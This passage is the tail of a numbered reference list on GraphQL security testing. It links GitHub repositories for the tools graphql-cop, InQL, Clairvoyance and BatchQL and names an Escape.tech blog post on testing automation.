   - [https://github.com/dolevf/graphql-cop](https://github.com/dolevf/graphql-cop)
7. **GitHub — InQL**
   - [https://github.com/doyensec/inql](https://github.com/doyensec/inql)
8. **GitHub — Clairvoyance**
   - [https://github.com/nikitastupin/clairvoyance](https://github.com/nikitastupin/clairvoyance)
9. **GitHub — BatchQL**
   - [https://github.com/assetnote/batchql](https://github.com/assetnote/batchql)
10. **Escape.tech Blog — GraphQL Security Testing**
    - Advanced automation techniques and API security best practices.
